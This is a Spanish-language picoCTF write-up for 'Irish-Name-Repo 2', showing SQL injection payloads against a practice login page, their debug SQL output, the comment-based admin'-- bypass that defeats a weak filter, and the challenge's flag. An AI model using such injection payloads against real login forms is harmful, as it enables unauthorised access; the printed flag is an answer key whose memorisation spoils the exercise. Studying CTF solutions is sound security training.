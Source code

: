 ```yaml
---
title: Irish-Name-Repo 2
date: 2025-05-23 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, irish name repo 2, sqli]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>Irish-Name-Repo 2
Author: Xingyang Pan
Description
There is a website running at https://jupiter.challenges.picoctf.org/problem/64649/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
{: .prompt-tip }


Ya había visitado esta web antes, en otro reto, de nuevo me fijo en el request en el navegador y vemos el parámetro debug, lo cambio a 1 y vuelvo a introducir admin:admin , pero parece que realmente se han tomado en serio securizar la página y arroja este mensaje cuando pruebo a inyectar en el username o en password "SQLi detected.". 

>debug=1&username=admin&password=a' or 1 = 1

>debug=1&username=admin' or '1=1'--


``` html
username: admin
password: a' or 1 = 1
SQL query: SELECT * FROM users WHERE name='admin' AND password='a' or 1 = 1'

SQLi detected.

username: admin' or '1=1'--
password: 
SQL query: SELECT * FROM users WHERE name='admin' or '1=1'--' AND password=''

SQLi detected.
```

Después de esto te da que pensar que la pista dice que el password se ha filtrado. Empecé a imaginar que sería el apellido o nombre de alguno de los artistas que hay en la web quizás?. Hay una conversación interesante donde aparece un usuario __JimmyMcTrollface__ probablemente el hacker que se ha creado una cuenta . Finalmente pruebo una inyección bastante simple que funciona.

>username: admin'--

``` html
username: admin'--
password: 1234
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='1234'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```

Si sanitizaron de alguna manera las inyecciones SQLi, lo hicieron mal. 

flag:  **picoCTF{m0R3_SQL_plz_aee925db}**